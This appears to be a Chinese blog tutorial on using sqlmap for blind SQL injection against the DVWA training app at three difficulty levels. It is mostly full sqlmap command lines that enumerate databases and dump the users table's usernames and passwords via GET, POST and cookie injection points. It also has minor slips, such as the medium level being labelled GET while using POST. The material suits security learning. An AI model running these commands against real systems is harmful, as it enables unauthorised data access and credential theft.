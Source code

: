 ```yaml
---
title: sqlmap使用方法与实践
date: '2022/1/23 23:15:01'
categories:
  - - web安全
    - 注入
    - SQL
abbrlink: ec5a5683
description: 使用sqlmap对dvwa上面的典型漏洞进行攻击
tags:
---
```


## sqlmap使用方法与实践

以攻击dvwa的low、medium、high三个难度为例

**知识点：**

> 使用--cookie加入了cookie中的参数
> 使用--dbms指定数据库类型
> 使用--technique指定注入方式（这里的B代表布尔盲注）
> 使用--fresh-queries可以让sqlmap不从缓存中加载数据
> 使用--data通过POST发送数据参数
> 使用*来指定注入点

**注入流程：**

（1）爆破数据库名
```sql
--dbs 
 ```


（2）爆破数据库名为dvwa下的所有表名
```sql
-D dvwa --tables
 ```

（3）爆破数据库名为dvwa、数据表为users下的所有列名
```sql
-D dvwa -T users --columns
 ```

（4）爆破数据库名为dvwa、数据表为users、列名为user、password中的所有数据
```sql
-D dvwa -T users -C user,password --dump
 ```

### low难度
> 这个是get方法

（1）爆破数据库名

```sql
sqlmap -u "http://this_is_attack_ip/vulnerabilities/sqli_blind/index.php?id=1&Submit=Submit" --cookie="security=low;PHPSESSID=1fuuts4qq35039qt1u4j07uoe3" --dbms mysql --technique=B --dbs
```

（2）爆破数据库名为dvwa下的所有表名

```sql
sqlmap -u "http://this_is_attack_ip/vulnerabilities/sqli_blind/index.php?id=1&Submit=Submit" --cookie="security=low;PHPSESSID=1fuuts4qq35039qt1u4j07uoe3" --dbms mysql --technique=B -D dvwa --tables
```

（3）爆破数据库名为dvwa、数据表为users下的所有列名

```sql
sqlmap -u "http://this_is_attack_ip/vulnerabilities/sqli_blind/index.php?id=1&Submit=Submit" --cookie="security=low;PHPSESSID=1fuuts4qq35039qt1u4j07uoe3" --dbms mysql --technique=B -D dvwa -T users --columns
```

（4）爆破数据库名为dvwa、数据表为users、列名为user、password中的所有数据

```sql
sqlmap -u "http://this_is_attack_ip/vulnerabilities/sqli_blind/index.php?id=1&Submit=Submit" --cookie="security=low;PHPSESSID=1fuuts4qq35039qt1u4j07uoe3" --dbms mysql --technique=B -D dvwa -T users -C user,password --dump
```

### medium难度
> 这个是get方法，所以要使用--data通过POST发送数据参数

（1）爆破数据库名

```sql
sqlmap -u "http://this_is_attack_ip/vulnerabilities/sqli_blind/index.php" --cookie="security=medium;PHPSESSID=1fuuts4qq35039qt1u4j07uoe3" --data="id=1&Submit=Submit" --dbms mysql --technique=B --dbs --fresh-queries
```

（2）爆破数据库名为dvwa下的所有表名

```sql
sqlmap -u "http://this_is_attack_ip/vulnerabilities/sqli_blind/index.php" --cookie="security=medium;PHPSESSID=1fuuts4qq35039qt1u4j07uoe3" --data="id=1&Submit=Submit" --dbms mysql --technique=B -D dvwa --tables --fresh-queries
```

（3）爆破数据库名为dvwa、数据表为users下的所有列名

```sql
sqlmap -u "http://this_is_attack_ip/vulnerabilities/sqli_blind/index.php" --cookie="security=medium;PHPSESSID=1fuuts4qq35039qt1u4j07uoe3" --data="id=1&Submit=Submit" --dbms mysql --technique=B -D dvwa -T users --columns --fresh-queries
```

（4）爆破数据库名为dvwa、数据表为users、列名为user、password中的所有数据

```sql
sqlmap -u "http://this_is_attack_ip/vulnerabilities/sqli_blind/index.php" --cookie="security=medium;PHPSESSID=1fuuts4qq35039qt1u4j07uoe3" --data="id=1&Submit=Submit" --dbms mysql --technique=B -D dvwa -T users -C user,password --dump --fresh-queries
```

### high难度
> 注入参数在cookie，使用*来指定cookie中的注入点为id

（1）爆破数据库名

```sql
sqlmap -u "http://this_is_attack_ip/vulnerabilities/sqli_blind/index.php" --cookie="security=high;PHPSESSID=1fuuts4qq35039qt1u4j07uoe3;id=1*" --dbms mysql --technique=B --dbs --fresh-queries
```

（2）爆破数据库名为dvwa下的所有表名

```sql
sqlmap -u "http://this_is_attack_ip/vulnerabilities/sqli_blind/index.php" --cookie="security=high;PHPSESSID=1fuuts4qq35039qt1u4j07uoe3;id=1*" --dbms mysql --technique=B -D dvwa --tables --fresh-queries
```

（3）爆破数据库名为dvwa、数据表为users下的所有列名

```sql
sqlmap -u "http://this_is_attack_ip/vulnerabilities/sqli_blind/index.php" --cookie="security=high;PHPSESSID=1fuuts4qq35039qt1u4j07uoe3;id=1*" --dbms mysql --technique=B -D dvwa -T users --columns --fresh-queries
```

（4）爆破数据库名为dvwa、数据表为users、列名为user、password中的所有数据

```sql
sqlmap -u "http://this_is_attack_ip/vulnerabilities/sqli_blind/index.php" --cookie="security=high;PHPSESSID=1fuuts4qq35039qt1u4j07uoe3;id=1*" -dbms mysql --technique=B -D dvwa -T users -C user,password --dump --fresh-queries
```
